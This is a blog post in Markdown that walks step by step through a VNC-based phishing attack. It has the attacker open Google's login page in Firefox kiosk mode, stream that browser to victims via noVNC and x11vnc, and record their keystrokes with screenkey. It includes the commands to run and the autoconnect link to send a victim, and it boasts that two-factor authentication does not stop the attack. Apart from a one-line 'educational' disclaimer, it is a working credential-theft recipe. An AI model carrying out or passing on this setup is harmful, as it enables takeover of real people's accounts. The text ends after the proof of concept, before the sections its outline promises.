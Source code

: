 ```yaml
---
layout: distill
title: Phishing Attacks with VNC
date: 2024-05-04
description: TBA
tags: tag, tag
categories: TBA
pretty_table: true
thumbnail: TBA
toc:
  - name: Introduction
  - name: Important Disclaimer
  - name: Security Context
  - name: PoC
  - name: Conclusions
  - name: Credits
---
```


### Introduction

On February 19, 2022, Mr. d0x a cybersecurity researcher introduced a method that uses VNC for phishing attacks. I was impressed by the cleverness of this idea.

### Background

VNC, or Virtual Network Computing, is a way to share screens and control another computer remotely. It works by installing a VNC server on the computer you want to control, and a VNC viewer on the device you're using to control it.

The goal is to share our screen, specifically our browser window, and make the victim believe they are controlling their own browser when they are actually connected to our computer.

By using a library called [noVNC](https://novnc.com/info.html), we can connect to VNC servers from modern web browsers. This phishing technique has several benefits over traditional phishing methods:

- We can record all keystrokes made by the victim
- We can watch in real-time what the victim is doing on a website
- Two-factor authentication will not protect against this type of attack

### Important Disclaimer

The information provided is for educational purposes only. I do not take responsibility for any actions taken based on the information provided.

### Security Context

Please note that the PoC demonstrated in this guide is not safe for "production" use, as it lacking essential security configurations.

---

### Prerequisites

- Linux

---


# PoC

First we lachnge Firefox, or any other browser in kiosk mode.

so, first what is kiosk mode?

Kiosk software is the system and user interface software designed for an interactive kiosk or Internet kiosk enclosing the system in a way that prevents user interaction and activities on the device outside the scope of execution of the netkiosk. 

Why do need kiosk mode?

Without kiosk mode, the vicitim might be able to control other parts of our attacking machine, that we probarly dont want to happen.

In the terminal, run:

```bash
firefox --kisok https://accounts.google.com
```

Now in a new terminal window, we will use noVNC.

noVNC is a VNC client library that can run on almost any browsers.

```bash
git clone https://github.com/novnc/noVNC
cd noVNC
./utils/novnc_proxy --listen 0.0.0.0:8080 --vnc localhost:5900
```

{% include figure.liquid loading="eager" path="assets/img/posts/2/2.png" class="img-fluid rounded z-depth-1" zoomable=true %}

now we need to get the id of Firefox proccess running, we can use `xwininfo | grep` run this command and select the firefox browser, the terminal will print the id back.

After we have the id, we will star a local vnc server with:

```bash
sudo apt update
sudo apt install x11vnc
x11vnc -id <firefox_window_id>
```

Almost done! Now all left to do is use some kind keylogger, we can use `screenkey` to see key presses by the victim in real time, (note: it will also show our own key presses so please be aware):

```
sudo apt install screenkey -y
screenkey
```

Now all left to do is open up the the browser from the vicitm and enter the following url: `http://<ip>:8080/vnc.html?autoconnect=true`

When  the vicitim will enter this url he will see the google accounts login page, without knowing it is a streaming video that he can interact with, this is crazy! 
